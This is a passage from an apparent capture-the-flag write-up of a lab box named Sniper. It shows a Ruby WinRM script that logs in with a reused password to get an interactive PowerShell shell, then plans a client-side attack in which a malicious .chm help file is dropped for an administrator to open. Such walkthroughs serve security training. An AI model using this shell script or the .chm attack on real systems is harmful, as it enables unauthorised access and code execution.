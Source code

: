     ```ruby
    require 'winrm'

    conn = WinRM::Connection.new(
      endpoint: 'http://127.0.0.1:5985/wsman',
      user: 'Chris',
      password: '36mEAhz/B8xQ~2VM',
    )

    command=""

    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            print "PS > "
            command = gets        
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print stdout
                STDERR.print stderr
            end
        end    
        puts "Exiting with code #{output.exitcode}"
    end
    ```
    - All that's left to do is run the script, and discover that Chris has been re-using his passwords! `ruby winrm.rb`
    pwd
    ![Image](./img/sniper_privesc_winrm.png)

### Client-Side Attack via .chm File

I started poking around the filesystem with my shell as Chris and found a couple of interesting things. First, in Chris' Downloads folder was a file **instructions.chm** (compiled HTML format - often used for displaying "help"). Secondly, the directory **C:\Docs** looked unusual, and a file inside called **note.txt** contained the following:

```
Hi Chris,
	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```

I transferred **instructions.chm** across to my Kali VM with netcat and inspected it with [xCHM](https://github.com/rzvncj/xCHM).

![Image](./img/sniper_chm_file.png)

A bit harsh maybe, but if I can create a malicious .chm that executes my own code and drop it in C:\Docs, hopefully the CEO should open it, running our code in his user context (ideally as Administrator).
